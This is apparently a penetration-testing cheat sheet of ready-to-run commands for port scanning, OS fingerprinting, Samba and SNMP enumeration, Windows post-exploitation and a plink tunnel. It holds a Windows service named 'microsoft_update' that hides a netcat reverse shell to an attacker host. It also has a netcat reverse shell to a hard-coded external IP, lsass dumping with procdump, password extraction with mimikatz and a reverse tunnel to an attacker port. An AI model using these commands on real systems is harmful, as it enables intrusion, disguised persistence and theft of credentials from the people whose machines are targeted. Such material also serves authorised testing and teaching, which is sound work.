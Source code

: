 ### Unicornscan

```
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

-H resolve hostnames during the reporting phase
-m scan mode (sf - tcp, U - udp)
-Iv - verbose
```

### Xprobe2 OS fingerprinting

```
xprobe2 -v -p tcp:80:open IP
```

### Samba Enumeration

```
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

### SNMP Enumeration

```
snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
```

### Windows Useful cmds

```
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
```

### PuTTY Link tunnel

```
Forward remote port to local address
cmd.exe /c echo y | .\plink.exe -P 22 -l <USER> -pw "password" -R PORT_TO_FORWARD:127.0.0.1:ATTACKER_PORT <IP> 2>&1
```
